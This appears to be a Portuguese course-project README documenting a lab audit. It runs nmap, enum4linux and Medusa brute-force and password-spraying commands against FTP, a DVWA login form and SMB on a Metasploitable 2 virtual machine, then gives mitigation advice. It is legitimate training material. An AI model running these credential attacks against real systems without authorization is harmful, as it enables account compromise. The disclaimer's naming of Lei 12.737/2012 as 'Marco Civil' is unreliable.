









# Projeto Prático: Auditoria de Segurança com Kali Linux e Medusa em Ambiente Controlado

Projeto desenvolvido para o Desafio de Projeto da formação em Segurança da Informação da **DIO (Digital Innovation One)**. O projeto simula, documenta e analisa cenários práticos de enumeração, ataques de força bruta (*brute force*) e *password spraying* contra múltiplos serviços (**FTP**, **Aplicação Web DVWA** e **SMB**), além de demonstrar a validação de acesso e medidas essenciais de mitigação e defesa.

---

## 📋 Sumário
1. [Visão Geral do Projeto](#-visão-geral-do-projeto)
2. [Topologia e Configuração do Laboratório](#-topologia-e-configuração-do-laboratório)
3. [Passo a Passo das Atividades e Evidências](#-passo-a-passo-das-atividades-e-evidências)
   - [Etapa 1: Validação de Conectividade](#etapa-1-validação-de-conectividade)
   - [Etapa 2: Varredura de Portas e Serviços (Reconhecimento)](#etapa-2-varredura-de-portas-e-serviços-reconhecimento)
   - [Etapa 3: Auditoria no Serviço FTP (Porta 21)](#etapa-3-auditoria-no-serviço-ftp-porta-21)
   - [Etapa 4: Ataque de Força Bruta Web (DVWA - Porta 80)](#etapa-4-ataque-de-força-bruta-web-dvwa---porta-80)
   - [Etapa 5: Enumeração SMB e Password Spraying (Porta 445)](#etapa-5-enumeração-smb-e-password-spraying-porta-445)
4. [Tabela de Resultados e Credenciais Obtidas](#-tabela-de-resultados-e-credenciais-obtidas)
5. [Recomendações e Medidas de Mitigação](#-recomendações-e-medidas-de-mitigação)
6. [Aviso Legal / Disclaimer](#-aviso-legal--disclaimer)

---

## 🎯 Visão Geral do Projeto

O desafio propõe a realização de auditorias práticas de autenticação utilizando a ferramenta **Medusa** a partir do **Kali Linux**, tendo como alvo a máquina vulnerável **Metasploitable 2**. Foram explorados três vetores de autenticação críticos:
- **FTP (Porta 21):** Teste de credenciais padrão em serviço de transferência de arquivos.
- **HTTP/Web Form (Porta 80 - DVWA):** Automação de submissão de requisições de autenticação contra formulário web.
- **SMB/Samba (Porta 445):** Enumeração de usuários da rede com `enum4linux` e teste de senhas fracas via técnica de *Password Spraying*.

---

## 🛠️ Topologia e Configuração do Laboratório

O ambiente foi montado de forma totalmente isolada via **Oracle VM VirtualBox** utilizando o modo de rede **Host-Only** (Placa de rede exclusiva do hospedeiro - `vboxnet0`), garantindo isolamento total contra redes externas ou internet.

- **Máquina Atacante (Auditoria):** Kali Linux (`192.168.56.102`)
- **Máquina Alvo (Vulnerável):** Metasploitable 2 (`192.168.56.101`)
- **Modo de Rede:** Host-Only (`vboxnet0` / `192.168.56.0/24`)



---

## 🚀 Passo a Passo das Atividades e Evidências

### Etapa 1: Validação de Conectividade

O primeiro passo consistiu em certificar a conectividade entre o Kali Linux e o Metasploitable 2 na rede isolada:

```bash
ping -c 4 192.168.56.101
```

* **Resultado:** 4 pacotes transmitidos, 4 recebidos com **0% de perda** e latência média em torno de 1.1ms a 1.2ms, validando a rota ativa.



---

### Etapa 2: Varredura de Portas e Serviços (Reconhecimento)

Com a comunicação confirmada, realizou-se a varredura com o **Nmap** para identificar portas abertas e banners de serviços:

```bash
nmap -sC -T4 -F 192.168.56.101
```

* **Parâmetros utilizados:**
  - `-sC`: Executa scripts seguros padrão do Nmap.
  - `-T4`: Velocidade de execução agressiva/rápida.
  - `-F`: Varredura rápida das portas mais comuns (*Fast Scan*).
* **Serviços detectados:** Porta `21/tcp` (vsftpd 2.3.4), porta `80/tcp` (Apache/DVWA) e porta `445/tcp` (Samba 3.0.20-Debian).



---

### Etapa 3: Auditoria no Serviço FTP (Porta 21)

#### 1. Tentativa Manual Sem Credenciais
Inicialmente, tentou-se o acesso direto via cliente FTP, mas sem sucesso com dados desconhecidos (`Login failed`):

```bash
ftp 192.168.56.101
```



#### 2. Criação das Wordlists Personalizadas
Para a auditoria automatizada, foram criadas wordlists com credenciais habituais e nomes padrão de serviço:

```bash
# Criação da wordlist de usuários
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
cat users.txt

# Criação da wordlist de senhas
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

#### 3. Execução do Brute Force com Medusa
Com as listas prontas, o Medusa foi acionado com o módulo `ftp`:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

* `-h 192.168.56.101`: Host alvo.
* `-U users.txt`: Wordlist de usuários.
* `-P pass.txt`: Wordlist de senhas.
* `-M ftp`: Módulo para o protocolo FTP.
* `-t 6`: Execução paralela em 6 threads.

* **Resultado:** O Medusa identificou a credencial `msfadmin:msfadmin` com status `[SUCCESS]`.



#### 4. Validação de Acesso FTP
Confirmou-se o acesso interativo utilizando a credencial descoberta:

```bash
ftp 192.168.56.101
# Usuário: msfadmin
# Senha: msfadmin
```



---

### Etapa 4: Ataque de Força Bruta Web (DVWA - Porta 80)

Acessou-se o ambiente web vulnerável **DVWA** através da porta 80 (`http://192.168.56.101/dvwa/login.php`).



Para automatizar as tentativas no formulário de autenticação web, utilizou-se o módulo `http` do Medusa configurado para interceptar a resposta do formulário:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login Failed' -t 6
```

* **Explicação dos parâmetros:**
  - `-M http`: Módulo HTTP para requisições web.
  - `-m PAGE:'/dvwa/login.php'`: Endpoint do formulário de login.
  - `-m FORM:'username=^USER^&password=^PASS^&Login=Login'`: Parâmetros POST enviados pelo formulário, injetando dinamicamente `^USER^` e `^PASS^`.
  - `-m 'FAIL=Login Failed'`: Mensagem de resposta que caracteriza erro de login.
  - `-t 6`: Quantidade de threads para otimizar os testes.
* **Resultado:** Credencial administrativa identificada com sucesso: **`admin:password`**.

---

### Etapa 5: Enumeração SMB e Password Spraying (Porta 445)

Para entender quais "portas e usuários existem no prédio", foi realizada a enumeração completa do serviço de compartilhamento Samba utilizando o **Enum4linux**:

```bash
# Enumeração completa e gravação da saída em arquivo de log
enum4linux -a 192.168.56.101 | tee enum4_output.txt
less enum4_output.txt
```

A partir dos usuários identificados (`user`, `msfadmin`, `service`), foram preparadas listas específicas para um teste de **Password Spraying** (técnica que testa senhas comuns contra múltiplos usuários para mitigar bloqueios rápidos de conta):

```bash
# Criação da lista de usuários descobertos
echo -e "user\nmsfadmin\nservice" > smb_users.txt

# Criação da lista de senhas comuns para spray
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

Executou-se o Medusa com o módulo `smbnt`:

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* `-M smbnt`: Módulo para autenticação SMB/NTLM.
* `-t 2` e `-T 50`: Controle rigoroso de conexões para evitar sobrecarga ou bloqueio imediato do serviço.
* **Resultado:** Credencial válida encontrada: **`msfadmin:msfadmin`** com permissão administrativa (`[SUCCESS (ADMIN$ - Access Allowed)]`).



#### Validação de Acesso aos Compartilhamentos (SMBClient)
Com a credencial obtida, listaram-se os compartilhamentos e permissões no servidor Samba:

```bash
smbclient -L //192.168.56.101 -U msfadmin
```

Foram expostos compartilhamentos críticos do sistema operacional como `ADMIN$`, `IPC$`, `opt`, `tmp` e os diretórios de usuários (`Home Directories`).



---

## 📊 Tabela de Resultados e Credenciais Obtidas

| Serviço | Porta | Ferramenta / Módulo | Usuário Encontrado | Senha Encontrada | Status da Validação |
| :--- | :---: | :---: | :---: | :---: | :---: |
| **FTP (vsftpd)** | 21/TCP | Medusa (`-M ftp`) | `msfadmin` | `msfadmin` | **Acesso confirmou login interativo (Código 230)** |
| **DVWA (Web)** | 80/TCP | Medusa (`-M http`) | `admin` | `password` | **Bypass da validação de erro no formulário** |
| **SMB (Samba)** | 445/TCP | Medusa (`-M smbnt`) | `msfadmin` | `msfadmin` | **Acesso liberado a recursos compartilhados e ADMIN$** |

---

## 🛡️ Recomendações e Medidas de Mitigação

Para mitigar e prevenir os riscos observados durante esta auditoria, recomenda-se a aplicação das seguintes contramedidas:

1. **Políticas de Senhas Fortes:**
   - Eliminar credenciais padrão de fábrica (como `msfadmin:msfadmin` ou `admin:password`).
   - Aplicar critérios de complexidade mínima (mínimo de 12 a 16 caracteres, letras maiúsculas, minúsculas, números e símbolos).

2. **Bloqueio de Contas (Account Lockout) e Rate Limiting:**
   - Estabelecer bloqueio temporário de conta após 3 a 5 tentativas consecutivas incorretas.
   - Utilizar ferramentas de proteção em nível de host como **Fail2ban**, monitorando `/var/log/auth.log` e logs de acesso web para bloquear temporariamente os IPs de origem via firewall (`iptables` ou `nftables`).

3. **Mecanismos Anti-Automação em Aplicações Web:**
   - Implementação de **CAPTCHA** ou desafios comportamentais após falhas sucessivas.
   - Adoção obrigatória de **Autenticação Multifator (MFA/2FA)** para todos os acessos administrativos.

4. **Hardening de Serviços de Rede (SMB e FTP):**
   - No Samba (`smb.conf`), desativar sessões nulas e restringir o acesso anônimo (`restrict anonymous = 2`).
   - Desativar protocolos legados e inseguros como SMBv1 e FTP em texto claro, migrando para **SFTP/SSH** com autenticação exclusiva por chave pública criptografada.

---

## ⚠️ Aviso Legal / Disclaimer

As atividades e comandos apresentados neste repositório foram executados **exclusivamente em ambiente de laboratório virtualizado e isolado**, com propósito didático e acadêmico, alinhado aos padrões da **DIO (Digital Innovation One)**. A execução de testes de intrusão e força bruta em ambientes corporativos ou públicos sem autorização formal prévia constitui crime cibernético previsto na legislação vigente (Lei 12.737/2012 - Marco Civil e Lei Carolina Dieckmann).
